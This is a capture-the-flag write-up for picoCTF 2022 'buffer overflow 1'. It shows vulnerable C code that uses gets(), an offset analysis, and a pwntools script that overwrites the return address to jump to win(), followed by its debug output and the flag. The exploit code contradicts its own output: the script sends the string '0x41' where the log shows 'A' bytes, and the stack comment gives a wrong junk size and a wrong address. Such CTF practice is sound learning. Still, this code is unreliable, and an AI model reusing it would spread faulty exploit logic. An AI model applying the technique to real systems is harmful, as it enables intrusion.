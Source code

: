 # buffer overflow 1

Tags: picoCTF 2022, Binary Exploitation

| Author | Point    |
| ------ | -------- |
| SANJAY C / PALASH OSWAL | 200 points |

## Description

Control the return address  
Now we're cooking! You can overflow the buffer and return to the flag function in the program.  
You can view source here. And connect with it using nc saturn.picoctf.net 51768  

## Solve

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

The binary security mechanisms are as follows:

```bash
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped

$ checksec.sh --file vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   vuln
```

In my opinion, the flow is main() -> vuln() -> win(). If the get of vuln() overflows, processing can proceed as described above.

The distance from buf to the return address is -0x02c, which is 44 bytes.

![](<./images/CleanShot 2024-04-17 at 20.43.58.png>)

Overflow buf and overwrite return address. The offset to the return address is 44 bytes.

function win() address is 0x080491f6.

![](<./images/CleanShot 2024-04-17 at 20.48.36.png>)

So, the following is the payload:

```python
payload = b''
payload += b'A' * 44 # Junk
payload += p32(0x080491f6) # Return address
```

The full exploit code is as follows.

```python
from pwn import *

context.log_level = 'debug'

host = 'saturn.picoctf.net'
port = 62804

p = remote(host, port)

p.recvline()

payload = b''
payload += b'0x41' * 44 # Junk
payload += p32(0x080491f6) # Return address

p.sendline(payload)

'''
When send payload, the stack is as follows.
------------------------------------------------------
|           Junk 112 bytes, b'0x41' * 44             | <- Offset
------------------------------------------------------
|    Return address to win() 4 bytes, 0x08049296     | <- EIP
------------------------------------------------------
'''

p.recvall()
```

Run the exploit.

```bash
$ python3 exploit.py
[+] Opening connection to saturn.picoctf.net on port 62804: Done
[DEBUG] Received 0x1b bytes:
    b'Please enter your string: \n'
[DEBUG] Sent 0x31 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  f6 91 04 08  │AAAA│AAAA│AAAA│····│
    00000030  0a                                                  │·│
    00000031
[+] Receiving all data: Done (100B)
[DEBUG] Received 0x40 bytes:
    b'Okay, time to return... Fingers Crossed... Jumping to 0x80491f6\n'
[DEBUG] Received 0x24 bytes:
    b'picoCTF{addr3ss3s_ar3_3asy_********}'
[*] Closed connection to saturn.picoctf.net port 62804
```

## Flag

```
picoCTF{addr3ss3s_ar3_3asy_********}
```